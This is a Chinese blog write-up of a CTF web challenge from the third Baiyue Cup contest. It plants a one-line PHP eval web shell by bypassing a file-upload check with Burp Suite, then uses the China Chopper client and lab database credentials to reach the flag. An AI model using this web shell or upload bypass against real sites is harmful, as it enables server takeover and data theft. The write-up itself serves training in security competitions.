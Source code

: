 ```yaml
---
arturl_encode: "68747470733a2f2f62:6c6f672e6373646e2e6e65742f71715f34343835383138392f:61727469636c652f64657461696c732f313037363631313931"
layout: post
title: "i春秋-第三届百越杯福建省高校网络空间安全大赛"
date: 2021-07-02 21:17:15 +08:00
description: "i春秋-第三届“百越杯”福建省高校网络空间安全大赛文件上传利用菜刀连接数据库记录一下i春秋里的一道w"
keywords: "第三届“百越杯”福建省高校网络空间安全大赛分值:100分 类型:misc题目名称:导入"
categories: ['未分类']
tags: ['信息安全']
artid: "107661191"
image:
  path: https://api.vvhan.com/api/bing?rand=sj&artid=107661191
  alt: "i春秋-第三届百越杯福建省高校网络空间安全大赛"
render_with_liquid: false
featuredImage: https://bing.ee123.net/img/rand?artid=107661191
featuredImagePreview: https://bing.ee123.net/img/rand?artid=107661191
---
```


# i春秋-第三届“百越杯”福建省高校网络空间安全大赛

#### i春秋-第三届“百越杯”福建省高校网络空间安全大赛

* + [文件上传](#_8)
  + [利用菜刀连接数据库](#_25)

```
记录一下i春秋里的一道web题，题目类型是文件上传漏洞

传送门：https://www.ichunqiu.com/battalion?t=1&r=61025

主要就两个知识点，很基础，适合新手阅读，大佬勿喷哈

```

### 文件上传

来到上传点
  
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/2a622ed0b9bce426310f7ff1a9df0dcc.png)
  
先上传一个正常的.jpg 文件(图片中写入一句话木马)

```php
<?php eval($\_POST['a']) ;?>

```

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/ac247f8efe43aba5b46bec2f03679fd8.png)

然后打开 burp suite 抓包，把后缀名 jpg 修改成 php
  
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/a1dd2e2e1e7bdd04611125a630b486cb.png)
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/0d693659f1dd655e735e315873abbe5c.png)
  
点击 Forward 发送数据包，成功上传并返回上传路径，当前目录下的 upload/hi.php

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/42456e679c2db3512db1a4328c5e4aff.png)

### 利用菜刀连接数据库

密码：a
  
类型：php

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/5f20d2216bcf8bcea91e042727e50890.png)

连上后并没发现 flag，但是在 html 文件夹里找到数据库配置文件

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/262eb5d6a4af397590485fdd7dba4233.png)
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/351c920b3431e78032ed7d48159ad511.png)

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/256acad0b71f2d2876cf69b2def1624a.png)
  
然后再点击配置
  
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/a9f7ebe51af18f487ea7a772dc7cef9f.png)
  
填写刚才找到的数据库配置文件，格式为

```php
<T>mysql</T> //数据库
<H>localhost</H> //数据库地址
<U>ctf</U> //账号
<P>ctfctfctf</P> //密码

```

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/fc30fa68c393735b654a772ee795d553.png)
  
连接成功，在 ctf 库中找到 flag

![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/5a97e711d1422a43108b8967fb53cad3.png)
